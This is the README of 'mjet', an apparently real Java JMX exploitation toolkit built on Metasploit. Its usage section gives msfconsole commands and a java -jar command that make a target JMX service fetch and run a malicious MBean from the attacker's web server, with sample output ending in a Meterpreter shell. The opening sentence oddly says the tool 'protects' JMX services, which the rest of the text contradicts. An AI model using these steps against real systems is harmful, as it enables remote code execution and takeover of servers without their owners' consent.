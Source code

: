 # mjet
Mogwai Security Java Management Extensions (JMX) Exploitation Toolkit

mjet is a tool that can be used to protect insecure configured JMX services. It is based on
the blog post "Exploiting JMX-RMI" from Braden Thomas/Accuvant "http://www.accuvant.com/blog/exploiting-jmx-rmi" 
and can be used to execute arbitrary Metasploit payloads on the target system.

Mjet was originally planned to be a complete attack toolkit, however we noticed that the Metasploit Github repository contains 
a pull request which will provide basic Java RMI/serialization support in native ruby. This is awesome and removes the Java 
dependency. So we stopped developing this tool and create metasploit modules in the near future.

mjet consists of the following parts:
- A metasploit module which emulates a "mlet Server". This is basically a web server which hosts a html file that contains a mlet tag
- A ManagedBean that is changed by the mlet server module to include the selected payload
- A jar archive that is used to contact the insecure JMX service.


### Installation (with the github version of Metasploit)
- Copy the "MBean" folder to "data/java/metasploit"
- Copy java_mlet_server.rb to "modules/exploits/multi/misc/"

### Usage 

The example uses following systems:
attacker: 192.168.178.1
target: 192.168.178.200, JMX service running on tcp port 1616

- Configure/start the metasploit module "java_mlet_server". The module will run as a background job
```
msf > use exploit/multi/misc/java_mlet_server
msf > set LHOST 192.168.178.1
msf > set SRVHOST 192.168.178.1
msf > set URIPATH /mlet/
msf > run
```

Use mjet.jar to connect to the vulnerable JMX service and provide the URL to the MLet Web server...
```
java -jar mjet.jar -t 192.168.178.200 -p 1616 -u http://192.168.178.1:8080/mlet/
---------------------------------------------------
MJET - Mogwai Security JMX Exploitation Toolkit 0.1
---------------------------------------------------

[+] Connecting to JMX URL: service:jmx:rmi:///jndi/rmi://192.168.178.200:1616/jmxrmi ...
[+] Connected: rmi://192.168.178.164  5
[+] Trying to create MLet bean...
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://192.168.178.1:8080/mlet/
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
[+] Loaded class: metasploit.Metasploit
[+] Loaded MBean Server ID: ptIIirfM:name=BlPwaoHu,id=oWTqfkbE
[+] Invoking: metasploit.Metasploit.run()
[+] Done

```

and enjoy your meterpreter shell :-)

